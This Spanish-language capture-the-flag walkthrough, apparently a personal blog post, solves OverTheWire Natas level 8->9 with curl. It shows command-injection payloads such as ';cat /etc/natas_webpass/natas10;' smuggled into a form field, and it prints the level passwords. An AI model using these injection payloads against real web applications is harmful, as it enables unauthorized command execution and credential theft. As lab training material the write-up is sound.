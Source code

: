 ```yaml
---
title: OverTheWire - Natas 8 -> 9 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 8 -> 9 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

```
Username: natas9
Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
URL:      http://natas9.natas.labs.overthewire.org
```

# Solución
---

Primero ejecutamos el comando curl con el parámetro `-u` para indicar las credenciales. 

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/
```

![](/images/images-otw-natas/natas8-9-1.png)

Vemos que necesitamos ingresar un valor para buscar, y su código fuente es encuentra en `index-source.html`.

![](/images/images-otw-natas/natas8-9-2.png)

Vamos al archivo pero no se puede leer nada.

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/index-source.html
```

![](/images/images-otw-natas/natas8-9-3.png)

Solucionamos esto con la herramienta `html2text` que se puede instalar con `sudo apt install html2text`.

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/index-source.html | html2text
```

![](/images/images-otw-natas/natas8-9-4.png)

Observamos que se está ejecutando el comando grep contra el archivo dictionary.txt.

![](/images/images-otw-natas/natas8-9-5.png)

El input que ingresamos se guarda en la variable `$key` y se agrega al comando grep sin ningún filtro, por lo tanto, podremos ejecutar comandos.

![](/images/images-otw-natas/natas8-9-6.png)

Volvemos a la página principal y con el parámetro `-d` ingresamos los valores `needle=;ls` y `submit` que puede ser cualquier cosa. Usamos `;` para terminar el comando grep y `ls` para listar los archivos.

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/ -d 'needle=;ls&submit=hola'
```

![](/images/images-otw-natas/natas8-9-7.png)

Vemos el resultado del comando.

![](/images/images-otw-natas/natas8-9-8.png)

Ejecutamos el comando `cat` sobre el archivo que almacena la contraseña de natas10, pero nos muestra todo el archivo **dictionary.txt**.

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/ -d ';cat /etc/natas_webpass/natas10&submit=hola'
```

![](/images/images-otw-natas/natas8-9-9.png)

Esto lo solucionamos simplemente agregando un `;` al final del comando.

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/ -d ';cat /etc/natas_webpass/natas10;&submit=hola'
```

![](/images/images-otw-natas/natas8-9-10.png)

# Contraseña
---

`nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu`

---

## [Anterior](/level-7-8)
## [Siguiente](/level-9-10)